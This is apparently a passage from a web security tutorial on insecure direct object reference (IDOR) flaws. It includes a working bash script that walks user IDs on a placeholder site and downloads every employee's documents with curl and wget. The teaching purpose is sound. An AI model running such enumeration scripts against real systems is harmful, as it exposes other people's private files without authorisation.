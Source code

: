 We can try manually accessing resources with `uid=3`, `uid=4`, and so on. However, this is impractical in real-world environments with hundreds of thousands of resources.
So we either use a tool like Burp Intruder or ZAP Fuzzer to retrieve all data or write a simple bash script.

In this example, we will use the following bash script to download all the files from a FIle Manager web app.
```bash
#!/bin/bash

url="http://target-website.com"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```
When we run the script, it will download all documents from all employees with `uids` between 1-10, thus successfully exploiting the IDOR vulnerability to mass enumerate the documents of all employees.